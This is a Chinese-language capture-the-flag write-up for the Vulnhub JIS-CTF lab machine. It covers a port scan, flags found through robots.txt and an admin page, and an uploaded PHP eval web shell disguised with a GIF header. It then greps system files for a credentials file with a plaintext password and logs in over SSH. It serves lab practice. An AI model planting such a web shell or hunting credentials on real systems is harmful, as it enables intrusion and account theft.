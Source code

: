 ```yaml
---
layout: post
title: JIS-CTF
subtitle: JIS-CTF
date: 2025-07-07 16:25
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags: 
published: true
---
```


## 环境搭建

[Vulnhub JIS-CTF靶机详解_ctf靶机如何使用-CSDN博客](https://blog.csdn.net/muyuchen110/article/details/141194080)
## 信息搜集

![Pasted%20image%2020250707170751.png](https://img.ghostliner.top/wqFpa0.png)

**发现主机：192.168.163.133**
```shell
nmap -T4 -A -p- 192.168.163.133
```
![Pasted%20image%2020250707170908.png](https://img.ghostliner.top/UVd7lU.png)

扫描站点发现`robots.txt`
![Pasted%20image%2020250707171104.png](https://img.ghostliner.top/G72JfN.png)
## 渗透测试

访问flag目录获取到flag1
![Pasted%20image%2020250707171227.png](https://img.ghostliner.top/ntcdCN.png)

访问admin_area，获取到flag2和admin密码
![Pasted%20image%2020250707180402.png](https://img.ghostliner.top/ii5xyJ.png)

登录成功，发现文件上传，尝试上传木马
![image.png](https://img.ghostliner.top/s1I617.png)

```php
GIF89a
<?php eval($_POST['code']);?>
```

上传成功，访问`/uploaded_files/shell.php`成功，蚁剑连接。
发现flag.txt为空，发现hint.txt，获取到flag3
![image.png](https://img.ghostliner.top/X0AV5L.png)

根据提示，发现flag.txt所属用户`technawi`
![image.png](https://img.ghostliner.top/GJ4LGS.png)

找到该用户家目录，未发现
![image.png](https://img.ghostliner.top/qX3FEC.png)

```shell
find / -type f -name "*technawi*" 2>/dev/null # 未发现
grep -r technawi /etc/* 2>/dev/null
```
![image.png](https://img.ghostliner.top/mYqrAr.png)

查看`/etc/mysql/conf.d/credentials.txt`,`technawi`,`3vilH@ksor`
![image.png](https://img.ghostliner.top/MV0Zgb.png)

ssh登录，查看`flag.txt`
![image.png](https://img.ghostliner.top/bkUWqU.png)
